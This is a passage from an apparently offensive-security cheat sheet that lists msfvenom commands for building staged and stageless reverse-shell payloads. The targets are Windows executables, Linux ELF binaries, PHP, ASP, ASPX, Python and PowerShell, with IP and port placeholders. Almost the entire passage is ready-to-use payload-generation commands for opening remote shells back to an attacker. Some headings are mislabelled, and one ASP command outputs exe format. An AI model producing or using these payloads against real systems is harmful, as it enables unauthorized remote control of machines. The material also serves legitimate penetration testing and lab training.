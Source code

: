 `$ msfvenom -p windows/shell/reverse_udp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe`

- **x86_64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x64.exe`

##### 2.5.1.2 - Staged Linux Reverse Shells

- **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x86`

- **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x64`

##### 2.5.1.3  - Staged Linux Reverse Shells

1. **PHP**

`$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o shell.php`

`$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o shell.php`

`$ cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php`

2. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.asp`

3. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x64.aspx`

##### 2.5.1.4 - Stageless Python Reverse Shells

`$ msfvenom -p python/shell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.py`

`$ msfvenom -p python/shell_reverse_tcp_ssl lhost=<IP> lport=<PORT> -o shell.py`

`$ msfvenom -p python/shell_reverse_udp lhost=<IP> lport=<PORT> -o shell.py`

##### 2.5.1.5  - Stageless Windows Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.ps1`
